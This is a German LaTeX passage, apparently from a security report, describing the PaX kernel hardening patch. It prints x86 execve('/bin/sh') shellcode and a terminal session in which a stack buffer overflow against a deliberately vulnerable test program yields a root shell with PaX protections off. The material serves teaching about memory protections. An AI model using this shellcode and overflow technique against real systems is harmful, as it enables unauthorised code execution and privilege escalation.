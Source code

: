 \newpage

\section{PaX}
\label{sec:PaX}
PaX ist ein Kernelsicherheitspatch, welches in der Regel mit GrSecurity ausgeliefert wird. Dieser Patch forciert je nach gesetzten Dateiattributen eine strengere Speicherverwaltung. Diese sogenannten Flags wurden anfangs mittels der Pax-Utils direkt im ELF-Header geschrieben (Bei Gentoo immer noch), mittlerweile, aufgrund der mangelnden Portierbarkeit der so entstandenen Dateien, werden die Flags in den erweiterten Dateiattributen des Dateisystems gespeichert (siehe: ).


Es folgen 2 Beispiele eines einfachen Stack-Buffer Overflows bei dem folgender Shellcode injiziert wird.
\begin{figure}[h]
\label{shellcode}
\begin{lstlisting}[numbers=none, frame=single, lineskip={-2.5pt}, breaklines=true]
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
\end{lstlisting}
\caption{execve("/bin/sh")}
\end{figure}

In den folgenden beiden Beispielen sieht man die Wirkung wenn die Schutzfunktionen von PaX aktiv, beziehungsweise inaktiv sind.

\begin{figure}[h]
\label{lst:paxflagsaus}
\begin{lstlisting}[numbers=none, frame=single, lineskip={-2.5pt}, breaklines=true]
[*root@grsec ~/SWSec #*] echo $0
zsh
[*root@grsec ~/SWSec #*] ./getenvaddr EGG ./exploitable
EGG will be at 0xffffdf9d
[*root@grsec ~/SWSec #*] ./exploitable $(python2 -c 'print("A"*52 + "\x9d\xdf\xff\xff")') 
Hi AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???, I will copy your name to a 40byte stack buffer now
[*[root@grsec]#*] whoami && echo $0
root
bash
[*[root@grsec]#*] exit
exit
\end{lstlisting}
\caption{PaX-Flags: pemRs}
\end{figure}

